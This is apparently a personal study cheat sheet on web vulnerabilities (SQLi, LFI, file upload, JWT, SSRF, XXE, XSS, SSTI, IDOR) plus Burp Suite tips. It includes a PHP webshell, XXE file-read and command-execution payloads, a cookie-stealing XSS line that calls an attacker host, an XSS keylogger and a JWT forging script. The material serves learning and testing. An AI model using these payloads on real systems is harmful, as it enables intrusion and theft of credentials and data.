

==**Vulnerabilities:**==

- <ins>Sensitive Data Exposure</ins>:
    
    - occurs when a website doesn't properly protect (or remove) sensitive clear-text information to the end-user
        
    - occurs when a website expose an endpoint that reveals sensitive data
        
    - **Poison Null Byte** attack:
        
        - used to bypass url filtering
        - it's a NULL terminator, that means that the server will consider the string only up to that point (but not the url filter, that's why it works)
        - the URL encoded bytes to use in the URL is `%2500`
- <ins>Command injection</ins>:
    
    - when web applications take input or user-controlled data and run them as system commands without properly sanitizing the input.
    - there are two types of command injection
        - active: the output is returned to the user. In this case we can just execute commands like `whoami` (which is both for linux and for windows!)
        - blind: the output is not returned to the user. To check if we have command injection in the first place, we can open a netcat listener or listen incoming connections with tcpdump, and then use commands like ping or curl on the remote machine
- <ins>Email Injection</ins>:
    
    - allows attackers to send email messages without prior authorization by the email server
    - caused by extra data in the attacker's request fields, that are not interpreted by the server correctly
- <ins>SQL Injection</ins>:
    
- <ins>LFI (Local File Inclusion)</ins>:
    
    - caused by improper sanitazion of user input
    - this vulnerability is exploited when a user input contains a certain path to a file which might be present on the server and will be included in the output.
    - can be used to read files containing sensitive data
    - useful links:
        - [https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File Inclusion - Path Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks](https://github.com/cyberheartmi9/PayloadsAllTheThings/tree/master/File%20Inclusion%20-%20Path%20Traversal#basic-lfi-null-byte-double-encoding-and-other-tricks)
- <ins>Broken Authentication attacks (vulnerabilities that exist in authentication services):</ins>
    
    - Dictionary attack: classic bruteforcing of login credentials with a wordlist.
    - Re-registration:
        - caused if the user input is not properly sanitized
        - we can get access to the content of a user that already exists by re-registering that username but with a slight modification (for example adding a space before the username).
- <ins>File Upload Vulnerabilities</ins>:
    
    - there are different ways we can try to exploit a website with a file upload feature:
        
        - overwriting existing files: if the web user has write permissions on the web pages and the uploaded file is not assigned with a new name, then we may be able to overwrite an existing file. Sometimes this lets us 'create' new vulnerabilities in the site!
            
        - **webshells and reverse shells** (RCE): a web shell is similar to a reverse shell, but the main difference is that you need a browser to interact with it. Here's an example of a PHP webshell.
            
            ```PHP
            <?php
                echo system($_GET["cmd"]);
            ?>
            ```
            
    - bypassing filters (for client-side filtering we can just use burp to edit the request, for server-side filtering it's more difficult):
        
        - extension validation: filter that compare the extension of the uploaded file to a blacklist/whitelist
            - if you can succesfully upload a file with a completely random file extension (ex. .randomextension) then it's most definitely a blacklist filtering.
            - there could be a vulnerability in the way the site parses the file name (for example it may check only the first dot it finds to determine the extension)
            - in case of a blacklist, we can try to use analouge extensions for the file we can upload (for example, if it's a .php file, we could try these other analogue extensions: `.phtml,.php3,.php4,.php5,.php7,.phps,.php-s,.phar,.pht` and so on)
        - MIME validation: the content type header in the POST request is checked
            - to see if this filter present, try to upload an innocent file you uploaded before, but change the MIME type first
        - Magic Number validation: the string of bytes at the very beginning of the file is checked
            - to see if this filter present, try to upload an innocent file you uploaded before, but change its magic number first
            - if the server checks only the magic number, we can try to upload a script that has the magic number the server wants and then see if we manage to execute it
            - how to edit the file signature of a file: use the command `hexeditor` .
                NOTE: you can't add bytes at the start of the file with hexeditor. To do that you first have to add random bytes with a normal text editor like vim.
        - File Length filtering (usually not an issue for an attacker):
            - to enumerate the filter, start by uploading a small file and then uploading progressively bigger files
        - File Name filtering: removes "bad characters" that could cause problems on the file system when uploaded
        - File Content filtering: more complicated filtering system that may scan the full contents of the file to be sure it's not spoofing its extension
    - when you do manage to succesfully upload a payload, if you don't know where the file is located you can try to use `gobuster` to enumerate the website
        
        - in this case, the `-x php,txt,html` option can be really useful
- <ins>JSON Web Tokens Vulnerabilities</ins> (jwt.io):
    
    - JWT are divided into 3 parts, base64 encoded and separated by a dot:
        
        - Header: consists of the algorithm used and the type of the token
            `{"alg": "HS256", "typ": "JWT"}`
            - HMAC (symmetric)
            - RSA256, HS256 (asymmetric)
            - None
        - Payload, contains access given to a certain user and depends on the website
        - Signature, used to grant integrity of data
    - Vulnerabilities exist but they are all caused by misconfiguration mistakes
        
        - if "None" algorithm is used, the signature is not checked and the attacker can freely edit the payload part. In the signature part you can write anything or even omit it completely (however you can't omit the dot!)
            
        - RS256 to HS256: if we know the RSA public key, we can try to modify the algorithm in the header to HS256 and then use public key to sign the data. This works only if the function to verify the token is misconfigured! Here's a simple script in python to do that
            
            ```Python
            import jwt
            public = open('public.pem', 'r').read()
            print jwt.encode({"replace this":"with the payload part"}, key=public, algorithm='HS256')
            ```
            
            **IMPORTANT**: this doesn't work for versions of pyjwt later than 0.4.3. So when you install the package, use `pip3 install pyjwt==0.4.3`
            
    - useful links:
        
        - [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON Web Token](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/JSON%20Web%20Token)
        - https://github.com/lmammino/jwt-cracker (to crack the HS256 secret of JWT tokens)
- <ins>SSRF (Server Side Request Forgery):</ins>
    
    - vulnerability where an attacker can communicate with any internal services (generally protected by firewalls) by making further HTTP requests through the server
    - caused by mistakes in controlling user input when the input is an URL/IP address
    - common payloads: `http://127.0.0.1/ , http://localhost/ , http://0.0.0.0/, http://[::]/, http://::/`
        - you can also try to use other URL Schemas (`file://` to try to read files from the server itself)
        - if these do not work, you can try to encode the IP in a decimal or hexadecimal format (https://gist.github.com/mzfr/fd9959bea8e7965d851871d09374bb72)
        - if that doesn't work, you can try to setup a server with a simple page that redirects to localhost, and then use the URL of your server
        - NOTE: sometimes a payload can fail because of how the web framework handles the input!
    - useful links and tools:
        - [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Request Forgery](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)
- <ins>CSRF (Cross Site Request Forgery)</ins>:
    
    - occurs when a user visits a page on a site (usually created by the attacker), that performs an action on a different, vulnerable site, like resetting password etc.
    - useful links and tools:
        - xsrfprobe, tests if a site vulnerable to CSRF and can also craft payloads
- <ins>XXE (XML External Entity):</ins>
    
    - vulnerability that abuses features of XML parser/data
    - can cause sensitive data exposure, DoS, and in the most extreme cases, RCE
    - two types of XXE
        - In-Band XXE attack, the attacker receive an immediate response to the XXE payload
        - OOB (out of band) XXE attacks, or blind XXE, where there is no immediate response and the attacker has to reflect the output of the attack on another file or on their own server
    - using knowledge of XML and DTD (written below in this document), we can read files from the system. Here's how to do it

```XML
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

- - if the php expect module is loaded, we can even get RCE using this payload

```XML
<!DOCTYPE root [<!ENTITY xxe SYSTEM "expect://id (or another command)">]>
<root>&xxe;</root>
```

- - useful tools and links:
        \- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE Injection
- <ins>XSS (cross-site scripting):</ins>
    
    - caused by improper user input sanitation.
        
    - XSS is possible in Javascript, VBScript, Flash and CSS
        
    - There are different types of XSS attacks:
        
        - **Stored XSS**: most dangerous type of XSS attack.
            The attacker inserts malicious payload into the website's source code, so that every time a client visits the website, the malicious script is executed.
            A common payload to steal the cookie of the victim is this:
            `<script>window.location='http://attacker/?cookie='+document.cookie</script>`
        - **Reflected XSS:** most common type of XSS attack.
            The attacker tricks a victim into clicking a URL with a malicious payload. The website includes the payload in response back to the user, and it's executed. A typical payload would be
            `http://example.com/search?keyword=<script>...</script>`
        - **DOM-Based XSS:**
            similar to Reflected XSS, but the payload is executed thanks to some vulnerable client side code (NOT modified by the attacker!) that modifies the DOM of the page.
    - With XSS you can do a million things, including cookie stealing, keylogging, webcam snapshot, phishing, port scanning etc.
        
        - how to IP and Port Scan with XSS: here's a simple example of a payload who scans all the ip addresses ranging from 192.168.0.0 to 192.168.0.255
            
            ```HTML
            <script>
             for (let i = 0; i < 256; i++) {
              let ip = '192.168.0.' + i
              // Creating an image element, if the resource can load, it logs to the link controlled by the attacker.
               // NOTE: this payload probably doesn't work
              let code = ''
              document.body.innerHTML += code // This is adding the image element to the webpage
             }
            </script>
            ```
            
            Here's a payload for portscanning: https://github.com/aabeling/portscan
            
            Keep in mind that when doing this type of attack there are many factors that will effect results such as response times, firewall rules etc.
            
        - How to create a keylogger using XSS: here's a simple example on how to do that
            
            ```Javascript
            <script type="text/javascript">
             let l = ""; // Variable to store key-strokes in
             document.onkeypress = function (e) { // Event to listen for key presses
               l += e.key; // If user types, log it to the l variable
               console.log(l); // update this line to post to your own server
             }
            </script>
            ```
            
    - Methods to bypass filters:
        
        - filter that removes all script tags from input:
            There are other tags in HTML that can execute js code. One example is this img tag:
            ``
        - if a word is filtered in a really bad way (a.k.a. the filter just removes the word that one time and that's it), there's a really smart and simple way to bypass it. Let's say the word Hello is filtered. In your input instead of Hello write `HelHellolo`. The filter finds and removes the word Hello, joins the substrings and if it doesn't do any other checks, you succesfully bypassed the filter.
        - look out for HTTP headers!! Sometimes it's possible to inject js code there.
    - Protection methods from XSS
        
        - escape all user input. This way any data your application has received is secure before rendering it for your end users
        - validating input (blacklists and whitelists)
        - sanitising, changing unacceptable user input into an acceptable format. <ins>Should not be used alone to battle XSS attacks.</ins>
    - useful links and tools:
        
        - BeEF, penetration testing tool that focuses on the web browser and can be useful to do XSS attacks
- <ins>SSTI (Server Side Template Injection):</ins>
    
    - happens when the user is able to pass in a parameter that can control the template engine of the server (a.k.a. the program that fill static HTML pages to make them dynamic)
    - the effects of this vulnerability can range from XSS all the way to RCE
    - the payloads depend on the template engine and framework the web application uses, but in general a common payload is `{{2+2}}`
    - useful links and tools:
        - https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Template Injection
        - tplmap, tool for automatic SSTI attack (NOTE: it requires python 2!!)
- <ins>Insecure Deserialization</ins>:
    
    - occurs when data from an attacker is not filtered or validated after being deserialized
- <ins>Broken Access Control Vulnerabilities</ins>:
    
    - these lead to **privilege escalation**, which is of two types:
        
        - horizontal, when an attacker manages to perform actions/access data of another user with the **same** level of permissions
        - vertical, when an attacker manages to perform actions/access data of another user with a **higher** level of permissions
    - <ins>IDOR (Insecure Direct Object Reference)</ins>:
        
        - access control vulnerability that makes us access resources we wouldn't ordinarily be able to access. A typical example is:
            `https://example.com/bank?account_number=1234`. Just by changing the account_number parameter we can access to other people's bank details
        - caused by misconfiguration in the way user input is handled.
- Security Misconfigurations:
    
    - default passwords (particularly common in embedded and IoT devices)
    - overly detailed error messages
    - not using HTTP security headers

==Basic Knowledge:==

- XML (eXstensible Markup Language):
    - markup language for storing and transporting data, platform and programming language indepedent.
    - allows validation using DTD and Schema. (to ensure the absence of any syntax error)
    - Structure
        - XML Prolog (optional): `<?xml version="1.0" encoding="UTF-8"?>`
        - DOCTYPE declaration (optional): `<!DOCTYPE root_element SYSTEM "DTD_location">`. Keep in mind that you can also declare a DTD **inside** the doctype declaration
        - ROOT element: top-most element that encapsulates all the other ones. If the document doesn't have a root element it's considered invalid.
        - like in HTML we can use attributes in XML too, pretty much in the same way as we do in HTML:
            `<text category = "message">hello</text>`
        - XML is case sensitive
- DTD (Document Type Definition):
    - defines the structure and legal elements/attributes of an XML document
    - Structure (example):
        - `<!DOCTYPE note [  between these brackets elements are defined  ]>` to define the root element of the document (in this case it's "note")
        - `<!ELEMENT note (to,from,heading,body)>`  to define the note element (must contain 4 elements)
        - `<!ELEMENT to (#PCDATA)>` defines the element "to", that has the type #PCDATA (parseable character data)
        - `<!ENTITY writer "Donald Duck.">` to define an entity (sort of constant) named writer.
            This can be used in XML like this: `&writer;`
            Entities can also defined externally using `<!ENTITY name SYSTEM "URI/URL">`
- DOM (Document Object Model):
    - programming interface for HTML and XML
    - it represents the page so that programs can change the document structure, style and content
- Databases: the most common way to store a large amount of data in a format that is easily accessible from many locations at once.
    - databases are usually set up on dedicated servers
    - "flat-file" databases: stored as a single file on the computer. Easier than previous option, but less common.
- Cookies fields:
    - Secure Only: if set the cookiw will only be set over HTTPS connections
    - Path: the cookie will only be sent if the specified URL is within the request

==**Burp suite:**==

- Tabs:
    - <ins>proxy</ins>: to intercept/modify requests/responses
    - <ins>repeater</ins>: to capture, modify, then resend the same request numerous times.
    - <ins>intruder</ins>: to spray an endpoint with requests. if you're using the free version of Burp DON'T WASTE TIME WITH THIS *#!$, use the extension TurboIntruder.
    - <ins>decoder</ins>: to transform a data without googling an online tool every time
    - <ins>comparer</ins>: to compare two pieces of data
    - <ins>sequencer</ins>: to assess the randomness of session cookie values and other tokens
    - <ins>extender</ins>: to load extensions in Burp. Some of them require the paid version but some of them don't
    - <ins>target</ins>: to map out the apps we're targeting in a tree structure, to define scoping and to see all web vulnerabilities.
- to use burp with your local browser, you need the **FoxyProxy** extension, and set it up so that it forwards all the traffic to 127.0.0.1:8080 (the default port of Burp)
- How to proxy HTTPS? Firefox shows that annoying warning page every time!
    - step 1: with the intercept mode set to on, open your browser and go to http://burp/cert
    - step 2: save the certificate somewhere
    - step 3: go on firefox's settings and search for "certificates"
    - step 4: click on the button "view certificates"
    - step 5: click on "import" and select the file you just downloaded
    - step 6: click on the checkbox that says "Trust this CA to identify websites" and click ok.
- Scoping, a.k.a let Burp only target a specific web application, and not every site we visit
    - to do this we go to the tab "Target", select the site we want to target, right click and click on "Add to Scope"
    - if we go on the scope subtab we should see our website in the target scope section. This will be disable **logging** for out-of-scope traffic
    - if we want to stop intercepting out-of-scope traffic we need to head to proxy options and select this checkbox



- BApp extensions:
    - Request timer: this extension log the response time of the responses. This can be useful to find and exploit time-based vulnerablities
- Other tips:
    - when injecting a payload in a request, you can URL encode it by pressing Ctrl + U
    - when in the proxy section, Ctrl + R to send a request to repeater
    - to create macros, go to the sessions subtab of project options
    - attack types you can do with intruder:
        - sniper: one payload set, intruder takes one payload at a time and substitute it in the defined position. `requests = numberOfWords * numberOfPositions`
        - battering ram: one payload set, but the same payload is put in every position rather than in each position in turn
        - pitchfork: uses one payload set per position (like having numerous Snipers running at once)
        - cluster bomb: uses one payload set per position, but unlike pitchfork, it tries every combination